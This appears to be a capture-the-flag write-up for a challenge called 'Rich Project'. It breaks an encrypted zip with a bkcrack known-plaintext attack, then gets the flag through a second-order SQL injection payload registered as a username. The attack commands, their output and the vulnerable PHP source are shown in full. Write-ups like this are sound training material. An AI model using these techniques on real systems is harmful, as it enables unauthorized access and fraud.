

## Rich Project

We are given a link to a website. One of the first things we do is check for a robots.txt and we find:

```
User-agent : *
Disallow: /top_secret.zip
Disallow: /
```

We download and try to extract top\_secret.zip but it is encrypted. We can see the filenames though:

```
Archive:  top_secret.zip
 Length   Method    Size  Cmpr    Date    Time   CRC-32   Name
--------  ------  ------- ---- ---------- ----- --------  ----
       0  Stored        0   0% 01-26-2019 19:31 00000000  __SECRET__/
     133  Defl:N      112  16% 01-15-2019 15:53 d2af9447  __SECRET__/flag.php
     674  Defl:N      340  50% 01-15-2019 17:29 060ffd05  __SECRET__/pricemaker.php
       0  Stored        0   0% 01-26-2019 19:31 00000000  html/
    1506  Defl:N      720  52% 01-26-2019 19:34 47f09190  html/bbs.php
    1019  Defl:N      526  48% 01-26-2019 19:32 1e4e97d7  html/buy.php
       0  Stored        0   0% 01-26-2019 19:31 00000000  html/css/
  117418  Defl:N    19237  84% 06-12-2018 22:30 3d3550ff  html/css/bootstrap.min.css
    2538  Defl:N      915  64% 01-02-2019 11:26 142a9253  html/css/carousel.css
     767  Defl:N      291  62% 01-02-2019 14:27 46d946c8  html/css/signin.css
     201  Defl:N      128  36% 01-15-2019 16:07 27d027b0  html/dbconn.php
     233  Defl:N      116  50% 01-15-2019 15:42 33a8cd28  html/footer.php
    1903  Defl:N      713  63% 01-15-2019 16:54 92a27374  html/header.php
    2656  Defl:N      694  74% 01-15-2019 15:25 3858ab6a  html/home.php
       0  Stored        0   0% 01-26-2019 19:31 00000000  html/images/
  133008  Defl:N   132951   0% 01-02-2019 09:22 652cae0e  html/images/buy.png
   12830  Defl:N    12814   0% 01-02-2019 09:41 0d669505  html/images/JB.jpg
   40394  Defl:N    39571   2% 05-19-2010 11:36 d28f29f5  html/images/rich.jpg
    1237  Defl:N      257  79% 01-15-2019 16:54 c5b2e10d  html/index.php
     947  Defl:N      501  47% 01-15-2019 15:32 b2c38c37  html/info.php
       0  Stored        0   0% 01-26-2019 19:31 00000000  html/js/
   35652  Defl:N     9460  74% 06-12-2018 22:30 470f81a5  html/js/bootstrap.min.js
  456243  Defl:N    93095  80% 11-18-2018 02:40 7ceb90fa  html/js/canvasjs.min.js
  305436  Defl:N   104987  66% 01-04-2019 10:00 cebd2607  html/js/echarts.simple.min.js
   23861  Defl:N     8680  64% 06-12-2018 22:30 e8b790fb  html/js/holder.js
    2132  Defl:N     1021  52% 06-12-2018 22:30 d57479a3  html/js/ie-emulation-modes-warning.js
     694  Defl:N      426  39% 06-12-2018 22:30 53fa6dd1  html/js/ie10-viewport-bug-workaround.js
   95931  Defl:N    33303  65% 12-21-2016 03:17 8210596f  html/js/jquery.min.js
    1389  Defl:N      636  54% 01-15-2019 17:26 177d2eef  html/login.php
      71  Defl:N       67   6% 01-15-2019 15:30 93b3559e  html/logout.php
    3464  Defl:N     1287  63% 01-15-2019 15:45 9fc79ea3  html/market.php
     366  Defl:N      272  26% 01-15-2019 15:48 dfdc5c33  html/pay.php
     998  Defl:N      505  49% 01-15-2019 16:01 3a666b07  html/read.php
    1675  Defl:N      769  54% 01-15-2019 16:03 87a85006  html/reg.php
     922  Defl:N      525  43% 01-26-2019 20:30 7b23d9ce  html/reserv.php
      53  Defl:N       45  15% 01-10-2019 10:05 babd12ec  html/robots.txt
     977  Defl:N      498  49% 01-26-2019 19:32 4c6497e0  html/sell.php
    1235  Defl:N      567  54% 01-15-2019 15:48 8050f721  html/write.php
       0  Stored        0   0% 01-15-2019 16:55 00000000  ZIP PASS = MASTER_PW
--------          -------  ---                            -------
 1248563           466029  63%                            39 files
```

This indicates that there is a master password somewhere which will give us the zip password. But we can also see that it contains html/js/\* which likely is the same contents as the files under js/  on the live server. This allows us to attempt to break the ZIP encryption using a known plaintext attack with bkcrack ([https://github.com/kimci86/bkcrack](https://github.com/kimci86/bkcrack)). It is important that when we generate the plaintext zip file containing the unencrypted, compressed ie10-viewport-bug-workaround.js, that its compressed size matches the compressed size in top\_secret.zip. If the compressed sizes do not match, then the data is different and the attack will not work.

```
$ wget http://110.10.147.112/js/ie10-viewport-bug-workaround.js
$ wget http://110.10.147.112/top_secret.zip
$ zip pt.zip ie10-viewport-bug-workaround.js
$ src/bkcrack -C top_secret.zip -c html/js/ie10-viewport-bug-workaround.js -P pt.zip -p ie10-viewport-bug-workaround.js
Generated 4194304 Z values.
[17:53:19] Z reduction using 414 extra bytes of known plaintext
100.0 % (414 / 414)
22536 values remaining.
[17:53:22] Attack on 22536 Z values at index 13
10.6 % (2396 / 22536)
[17:53:51] Keys
c9a99496 d9c6d6fe 75590659
```

Now we can decrypt the files in the ZIP file:

```
$ src/bkcrack -C top_secret.zip -c __SECRET__/flag.php -k c9a99496 d9c6d6fe 75590659 -d flag.php
[17:56:45] Keys
c9a99496 d9c6d6fe 75590659
Wrote deciphered text.
$ ../tools/inflate.py < flag.php
<?php
	$key= "D0_N0T_RE1E@5E_0THER5";
	$FLAG = "##########"
	if($_GET['key'] === $key)
		die($FLAG);
	else
		die("who you are?");
?>
```

We analyzed the other PHP files in the ZIP. We can see that pay.php will include flag.php if we have enouch gold:

```
<div class="container" style="margin-top:120px">
<?php
	if(!isset($_SESSION['ID']))
		die('login first');
	$conn = dbconn('tradedata');
	$q = "SELECT * FROM user_wallet where id='{$_SESSION['ID']}'";
	$res = mysqli_query($conn,$q);
	$row = mysqli_fetch_array($res);
	if($row['cash'] <999999999)
		die("Not enough gold");
	else
		include '../__SECRET__/flag.php';
?>
```

One way to easily have enough gold is if we can inject into the SQL query using the ID field in the session. As we can see from login.php, the ID field comes directly from the database and is not escaped:

```
...
		$q = "SELECT * FROM users where id='{$ID}' and pw='{$PW}' and ac='{$AC}'";
		$res = mysqli_query($conn,$q);
		$row = mysqli_fetch_array($res);
		if($row != NULL)
		{
			$_SESSION['ID'] = strtolower($row['id']);
			header("Location: ./?p=main");
			die("");
		}
...
```

Unfortunately, the id field in the database is quite small (maybe 32 bytes), so our SQL injection needs to also be small. We ended up with the following query:

```
azz' union select 1,1e10,1,1,1 #
```

After registering a user with this ID, logging out, and login with this ID, we can visit /pay.php with the correct key parameter to get the flag.


